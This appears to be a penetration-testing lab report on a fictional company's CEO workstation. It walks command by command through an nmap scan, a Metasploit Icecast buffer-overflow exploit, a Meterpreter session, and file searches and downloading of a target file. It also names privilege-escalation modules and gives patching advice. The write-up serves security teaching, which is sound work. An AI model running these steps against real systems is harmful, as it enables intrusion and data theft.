 # Penetration_Test_Engagement

In this activity, I played the role of an independent penetration tester hired by "GoodCorp Inc." to perform security tests against their CEO's workstation.

## GoodSecurity Penetration Report

JosephMossman@GoodSecurity.com

### 1.0 High-Level Summary

GoodSecurity was tasked with performing an internal penetration test on GoodCorp’s CEO, Hans Gruber. An internal penetration test is a dedicated attack against internally connected systems. The focus of this test is to perform attacks, similar to those of a hacker and attempt to infiltrate Hans’ computer and determine if it is at risk. GoodSecurity’s overall objective was to exploit any vulnerable software and find the secret recipe file on Hans’ computer, while reporting the findings back to GoodCorp.

When performing the internal penetration test, there were several alarming vulnerabilities that were identified on Hans’ desktop. When performing the attacks, GoodSecurity was able to gain access to his machine and find the secret recipe file by exploiting two programs that had major vulnerabilities. The details of the attack can be found in the ‘Findings’ category.

### 2.0 Findings

**Machine IP:**

192.168.0.20

**Hostname:**

MSEDGEWIN10 (DVW10)

**Vulnerability Exploited:**

Icecast Header Overwrite

![Icecast_Vulnerability](Screenshots/search_icecast_command.png)

**Vulnerability Explanation:**
 
The Icecast Header Overwrite vulnerability running on 192.168.0.20 Host allows a buffer overflow exploit that lets an attacker system gain remote control of the victim system by overwriting the memory on the system. The exploit writes past the end of a pointer array when receiving 32 HTTP headers. This allowed for a variety of remote actions, such as file discovery and download, key logging, screen capture, and privilege escalation to Administrator.

**Severity:**

The severity of this vulnerability is High, with a CVSS score of 7.5.

**Proof of Concept:**

Perform a service and version scan using Nmap to determine which services are up and running:

- Run the Nmap command that performs a service and version scan against the target.

   - **Answer:** nmap -sV 192.168.0.20

   ![nmap](Screenshots/nmap_command.png)

From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:

- Run the SearchSploit commands to show available Icecast exploits.

> **Answer:** searchsploit icecast

 ![searchsploit_icecast](Screenshots/searchsploit_icecast_command.png)

Now that we know which exploits are available to us, let's start Metasploit:

- Run the command that starts Metasploit:

> **Answer:** msfconsole

 ![msfconsole](Screenshots/msfconsole_command.png)
 
Search for the Icecast module and load it for use.

- Run the command to search for the Icecast module:

> **Answer:** search icecast

 ![search_icecast](Screenshots/search_icecast_command.png)
 
- Run the command to use the Icecast module:

> **Answer:** use 0

 ![use](Screenshots/use_0_command.png)
 
- Run the command that sets the RHOST:

> **Answer:** set RHOST 192.168.0.20

 ![RHOST](Screenshots/use_rhost_command.png)
 
- Run the command that runs the Icecast exploit.

> **Answer:** exploit

 ![exploit](Screenshots/exploit_command.png)
 
You should now have a Meterpreter session open.

- Run the command that performs a search for the secretfile.txt on the target.

> **Answer:** search -f *secretfile*.txt

 ![secretfile](Screenshots/secretfile_command.png)

- Run the command to performs a search for the recipe.txt on the target:

> **Answer:** search -f *recipe*.txt

 ![recipe](Screenshots/recipe_command.png)

- Run the command that ex-filtrates the recipe*.txt file:

> **Answer:** download ‘c:\Users\IEUser\Documents\Drinks.recipe.txt’

 ![exfiltrate](Screenshots/exfiltrate_recipe_command.png)

- Verify that you have successfully downloaded the file.

> **Verification:**

 ![verification](Screenshots/verify_drinks.png) 

You can also use Meterpreter's local exploit suggester to find possible exploits.

- Run the command to use Meterpreter’s local exploit suggester.

> **Answer:** run post/multi/recon/local_exploit_suggester

 ![exploit_suggestor](Screenshots/exfiltrate_recipe_command.png)

- Run a Meterpreter post script that enumerates all logged on users.

> **Answer:** run post/windows/gather/enum_logged_on_users

 ![enum_users](Screenshots/logged_on_users_command.png)

- Run the command to open a Meterpreter shell and gather system information for the target.

> **Answer:** shell

 ![shell](Screenshots/shell_command.png)

- Run the command that displays the target's computer system information:

> **Answer:** systeminfo

 ![systeminfo](Screenshots/systeminfo_command.png)

### Separate findings for each vulnerability can be found below:

**Machine IP:**

192.168.0.20 Port 25

**Hostname:**

MSEDGEWIN10 (DVW10)

**Vulnerability Exploited:**

windows/local/ikeext_service

**Vulnerability Explanation:**

The ikeext_service vulnerability utilizes a missing Dynamic-link library (DLL) in Microsoft’s operating system that runs as SYSTEM and starts automatically in default installations of select windows operating systems. This vulnerability can be used for privilege escalation under the SYSTEM account. It requires an insecure bin path to plant the DLL payload.

**Severity:**

The severity of this vulnerability is Medium, with a CVSS score of 6.0.

**Proof of Concept:** 

 ![ikeext_proof](Screenshots/ikeext_vulnerability.png)

**Machine IP:**

192.168.0.20 Port 25

**Hostname:**

MSEDGEWIN10 (DVW10)

**Vulnerability Exploited:**

windows/local/ms16_075_reflection

**Vulnerability Explanation:**

The ms16_075_relfection vulnerability utilizes a reflection link between Distributed Component Object Model (DCOM) and Remote procedure call (RPC) that allows local users to use a crafted application to gain a SYSTEM handle for privilege escalation. The module does not start as SYSTEM by default. Once gaining a shell SYSTEM impersonation is possible.

**Severity:**

The severity of this vulnerability is Medium, with a CVSS score of 6.9.

**Proof of Concept:** 

 ![ms16_proof](Screenshots/ms16_075_reflection_vulnerability.png)

### 3.0 Recommendations

The Icecast Header Overflow exploit is an older vulnerability that can be fixed with a current patch. It is recommended to update to the latest version of Icecast, found here: https://icecast.org/download/

Other technical recommendations would be to encrypt all sensitive data and enable firewall rules to only allow traffic on needed ports. 
